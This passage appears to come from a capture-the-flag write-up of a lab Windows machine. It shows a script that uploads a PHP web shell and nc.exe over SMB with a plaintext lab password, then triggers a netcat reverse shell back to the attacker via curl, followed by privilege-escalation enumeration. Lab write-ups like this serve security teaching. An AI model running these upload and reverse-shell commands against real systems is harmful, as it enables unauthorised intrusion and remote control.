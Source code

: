 ```
smbclient -U 'tyler%92g!mA8BGjOirkL%OG*&' //10.10.10.97/new-site -c 'put /opt/shells/php/cmd.php 0xdf.php' || (echo "[-] Upload php failed" && exit 1)
smbclient -U 'tyler%92g!mA8BGjOirkL%OG*&' //10.10.10.97/new-site -c 'put /opt/shells/netcat/nc.exe nc.exe' || (echo "[-] Upload nc failed" && exit 1)
echo "[+] Successfully uploaded webshell and nc.exe"

echo "[*] Triggering nc shell callback to ${ip}:${port}"
curl "http://10.10.10.97:8808/0xdf.php?cmd=nc.exe+-e+cmd.exe+${ip}+${port}"

```

## Privesc

### bash.exe

Enumerating the host, there’s a couple places that hint to look at the Linux Subsystem. First, on the desktop right next to `user.txt` is a shortcut to `bash`:

```

C:\Users\tyler\Desktop>dir                                                                                                                                                                                          [54/290]
dir                            
 Volume in drive C has no label.
 Volume Serial Number is 9CDD-BADA           
                                           
 Directory of C:\Users\tyler\Desktop                  
                                                
08/19/2018  02:51 PM    <DIR>          .         
08/19/2018  02:51 PM    <DIR>          ..          
06/22/2018  02:09 AM             1,293 bash.lnk                                                                 
04/11/2018  03:34 PM             1,142 Command Prompt.lnk
04/11/2018  03:34 PM               407 File Explorer.lnk
06/21/2018  04:50 PM             1,417 Microsoft Edge.lnk
06/21/2018  08:17 AM             1,110 Notepad++.lnk                                                                                   
08/19/2018  08:25 AM                34 user.txt
08/19/2018  09:59 AM             2,494 Windows PowerShell.lnk
               7 File(s)          7,897 bytes
               2 Dir(s)  33,220,325,376 bytes free

```

Additionally, in the root of C, there’s a `Distros\Ubuntu` path:

```

C:\Distros\Ubuntu>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 9CDD-BADA

 Directory of C:\Distros\Ubuntu

01/13/2019  09:52 AM    <DIR>          .
01/13/2019  09:52 AM    <DIR>          ..
07/11/2017  05:10 PM           190,434 AppxBlockMap.xml
07/11/2017  05:10 PM             2,475 AppxManifest.xml
06/21/2018  02:07 PM    <DIR>          AppxMetadata
07/11/2017  05:11 PM            10,554 AppxSignature.p7x
06/21/2018  02:07 PM    <DIR>          Assets
06/21/2018  02:07 PM    <DIR>          images
```